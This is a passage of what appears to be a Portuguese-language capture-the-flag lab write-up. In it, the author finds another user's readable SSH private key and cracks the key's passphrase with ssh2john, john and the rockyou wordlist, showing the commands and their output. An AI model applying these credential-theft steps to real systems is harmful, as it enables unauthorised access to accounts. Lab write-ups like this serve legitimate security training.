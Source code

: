 ## **Exploração**

### Chave SSH

Após conectar via ssh no usuário jan, encontramos chaves ssh na home do kay.

```shell
jan@basic2:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```
{: .nolineno }
Tentei usar, mas ainda tem senha.

```shell
┌──(kali💀kali)-[~/thm/basicpentest]
└─$ ssh -i rsa kay@10.10.16.5
Enter passphrase for key 'rsa': 
kay@10.10.16.5's password: 
Permission denied, please try again.
```
{: .nolineno }
Tentar crackear com john

```shell
┌──(kali💀kali)-[~/thm/basicpentest]
└─$ ssh2john rsa > idrsa

┌──(kali💀kali)-[~/thm/basicpentest]
└─$ john idrsa --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (rsa)     
1g 0:00:00:00 DONE (2024-01-16 01:24) 5.555g/s 459644p/s 459644c/s 459644C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno }
## **Escalação de Privilégio**
### Escalando para usuário kay
Conectando agora com a senha: